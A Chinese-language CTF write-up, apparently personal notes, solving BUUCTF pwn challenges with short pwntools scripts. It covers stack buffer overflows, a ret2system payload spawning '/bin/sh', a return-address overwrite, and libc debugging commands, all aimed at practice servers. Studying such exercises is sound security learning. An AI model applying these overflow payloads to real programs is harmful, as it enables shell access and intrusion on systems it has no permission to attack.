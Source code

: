 # pwn wp
### 1.ciscn_2019_n_1
v1地址为0x04。v2地址为0x30 计算偏移量为2c
而11.28125地址为0x41348000h
所以payload
```python
from pwn import *
p = remote('node3.buuoj.cn', 27751)
addr = 0x41348000
offset = 0x2c
payload = 'A'* offset + p64(addr)
p.sendline(payload)
p.interactive()
```
### 2.level2
shift+f12看到关键字`bin/bash 0804A024 hint            db '/bin/sh',0`
得到'/bin/bash'点地址0x804A024
system函数地址 `_system	.plt	08048320	00000006	00000000	00000004	R	.	.	.	.	T	.`
```python
system_addr = 0x08048320
bin_addr = 0x804A024
payload = "a" * (0x88 + 4) + p32(system_addr) + "a" * 4 + p32(bin_addr)
```
`函数地址和参数地址中的'a' * 4 实际是system函数的返回地址`
### 3.buuctf_rip
文件为64位的elf。
![rip1](./pic/buuctf_rip/rip1.jpg)
通过调试得到偏移量为23
![rip2](./pic/buuctf_rip/rip2.png)
这里有个问题
![rip3](./pic/buuctf_rip/rip3.png)
直接调用`system`函数当然可以，但是必须注意，地址是`0x40118A`。
那么exp就是
```python
from pwn import *
payload = 'A'* 23 +p64(0x40118A)
```
不过由于ubuntu18的原因，调用函数需要先ret一下对齐堆。
### OGeek2019_babyrop
留意一些简单的命令：

```linux
    readelf -s /lib32/libc.so.6 | grep 'gets@'  #可以得到gets在libc.so.6中的地址
    cat /proc/`pidof 文件名字`/maps
    
    LD_LIBRARY_PATH=. ldd ./文件名字
    ldd ./文件名字
    export LD_LIBRARY_PATH=`pwd` #当前目录为加载目录
    export LD_PRELOAD=你的libc #加载本地pwn题目下的libc
    最后不用了在：unset LD_PRELOAD #调试完记得删除环境变量
```

